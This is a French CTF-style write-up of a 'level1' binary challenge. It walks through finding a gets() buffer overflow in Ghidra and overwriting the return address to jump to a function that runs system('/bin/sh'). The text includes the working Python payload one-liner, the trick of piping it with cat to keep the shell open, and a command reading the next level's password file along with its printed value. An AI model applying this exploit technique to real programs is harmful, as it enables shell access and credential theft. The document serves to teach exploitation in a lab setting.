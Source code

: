 # LEVEL 1

Nous avons acces a un executable, `level1`, en l'executant, nous voyons qu'il attends un input, mais quand on envoie un input, il ne renvoie rien.

En ouvrant l'exécutable avec ghidra, nous voyons ca:
![ghidra](Ressources/ghidra.png)

- Une fonction run(qui n'est pas appelée), mais qui execute avec system "/bin/sh".
- Une fonction main

En regardant la fonction main, nous voyons qu'elle utilise la fonction `gets`, qui contient une faille de sécurité, car elle ne vérifie pas la taille de l'input, et donc on peut faire un buffer overflow. Donc faire en sorte que après le main, au lieu de retourner normalement, il execute la fonction run.

Après quelques tests pour connaitre la taille du buffer, on voit qu'il est de 76, donc on va devoir mettre 76 caractères, puis l'adresse de la fonction run, qui est `0x08048444` en little endian.

```bash
python -c "print('42'*38 + '\x44\x84\x04\x08')" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

On a donc bien réussi a faire un buffer overflow, mais /bin/sh étant lancé avec `system`, il return directement, donc il faut trouver un moyen de faire en sorte que le programme continue après le `system("/bin/sh")`.
En utilisant `cat`, on peut faire en sorte que le programme continue après le `system("/bin/sh")`.

```bash
(python -c "print('42'*38 + '\x44\x84\x04\x08')";cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
